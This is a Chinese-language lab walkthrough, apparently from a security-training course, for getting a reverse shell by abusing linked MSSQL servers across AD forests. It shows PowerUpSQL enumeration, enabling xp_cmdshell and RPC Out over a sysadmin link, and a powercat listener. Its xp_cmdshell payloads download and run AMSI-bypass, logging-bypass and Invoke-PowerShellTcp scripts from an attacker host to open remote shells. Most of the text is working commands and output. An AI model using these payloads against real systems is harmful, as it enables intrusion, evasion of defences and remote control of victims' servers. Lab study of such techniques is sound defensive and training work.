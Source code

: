 Task
•  Get a reverse shell on a db-sqlsrv in db.local forest by abusing database links from us-mssql.

1. 枚举当前账号是否有任何可用的mssql链接

```
PS C:\Windows\system32> cd C:\ad\Tools\
PS C:\ad\Tools> Import-Module .\PowerupSQL-master\PowerupSQL.psd1
WARNING: The names of some imported commands from the module 'PowerupSQL' include unapproved verbs that might make them
 less discoverable. To find the commands with unapproved verbs, run the Import-Module command again with the Verbose
parameter. For a list of approved verbs, type Get-Verb.
PS C:\ad\Tools> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
Instance               : US-MSSQL
DomainName             : US
ServiceProcessID       : 2216
ServiceName            : MSSQLSERVER
ServiceAccount         : US\dbservice
AuthenticationMode     : Windows and SQL Server Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 14.0.1000.169
SQLServerMajorVersion  : 2017
SQLServerEdition       : Developer Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : US\studentuser138
IsSysadmin             : No
ActiveSessions         : 1
```

对us-mssql这个实例有进入权限，但我们不是sysadmin（IsSysadmin:No）

2. 查看上面us-mssql这个链接的信息

```
PS C:\ad\Tools> Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 0
DatabaseLinkName       : US-MSSQL
DatabaseLinkLocation   : Local
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : True
is_data_access_enabled : False
modify_date            : 7/7/2019 9:48:29 AM

ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 1
DatabaseLinkName       : 192.168.23.25
DatabaseLinkLocation   : Remote
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : False
is_data_access_enabled : True
modify_date            : 7/9/2019 6:54:54 AM
```

留意第二条枚举信息
```
DatabaseLinkName       : 192.168.23.25
DatabaseLinkLocation   : Remote
Product                : SQL Server
```

这里表示在us-mssql还有一个远程的mssql链接

3. 使用HeidiSQL客户端

以当前用户身份登录


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667866844266.png)


查找当前链接下的链接,效果如上面第2步

```
select * from master..sysservers
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667866940423.png)

继续枚举192.168.23.25这个链接下面的链接

```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667867153821.png)

openquery可以嵌套操作，根据当前链接，打开db-sqlsrv链接，枚举版本号
```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667867292305.png)

我们还可以使用 PowerUpSQL 中的 Get-SQLServerLinkCrawl 来自动爬取数据库链接：

```
PS C:\ad\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Verbose

Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser138
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```

从上面枚举结果可知，对DB-SQLSRV有sa权限

如果启用了 xp_cmdshell（或者 rpcout 值为true，允许我们启用 xp_cmdshell），则可以使用以下命令在数据库链接中的任何节点上执行命令。

尝试对各个mssql节点执行```whoami```命令

```
PS C:\ad\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''


Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser138
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery : {nt service\mssqlserver, }   #留意这里
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```

上面结果表明我们对 DB-SQLPROD这个实例可以执行系统命令


下面在本地开启一个监听
```
PS C:\ad\Tools> . .\powercat.ps1
PS C:\ad\Tools> powercat -l -v -p 443 -t 1000
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
```

开启一个http服务
```
PS C:\ad\Tools> python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

对该实例执行一条命令，返回一个rev shell

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"'''
```

获得一个rev shell


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667868683031.png)


因为从 DB-SQLProd到DB-SQLSrv的链接是sa权限，我们可以在 DB-SQLSrv 上启用 RPC Out 和 xp_cmdshell，在上面拿到的rev shell下操作,忽略第一条命令的报错
```
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""

Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667869029838.png)

上面操作完成以后，现在再次对执行whoami,已经可以在DB-SQLSRV执行系统命令

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667869162364.png)


现在可以对DB-SQLSRV拿到一个rev shell

在HeidiSQL上操作
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell ''''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcp.ps1)"'''''')')
```

注意这里使用的是Invoke-PowerShellTcp.ps1，需要在脚本最后面加
```
reverse -Reverse -IPAddress 192.168.100.138 -Port 443
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667869606504.png)

或者可以在命令行里执行rev shell

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667869785882.png)